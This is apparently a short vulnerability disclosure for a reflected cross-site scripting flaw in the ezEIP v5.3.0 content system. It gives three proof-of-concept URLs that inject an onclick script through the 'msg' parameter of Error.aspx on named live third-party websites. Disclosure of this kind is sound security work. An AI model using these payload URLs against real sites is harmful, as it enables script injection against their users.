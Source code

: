 > ezEIP Cross-Site Scripting
</br>
> [Description]
> ezEIP v5.3.0(0649) was discovered to contain a cross-site scripting vulnerability.
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Vendor of Product]
</br>
> http://gzwhir.com/
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Affected Product Code Base]
</br>
> ezEIP - ezEIP v5.3.0(0649)
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Attack Type]
</br>
> Context-dependent
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Reference]
</br>
> https://github.com/God-Pattern/ezEIP/blob/main/XSS%20Vulnerability.md
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Examples]
</br>
> 
</br>
> Examples_1
</br>
> http://qiqi.gzwhir.com:805/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
> Examples_2
</br>
> http://en.mobi-antenna.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
> Examples_3
</br>
> http://www.szfaosc.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
>
</br>
> ------------------------------------------
</br>
>
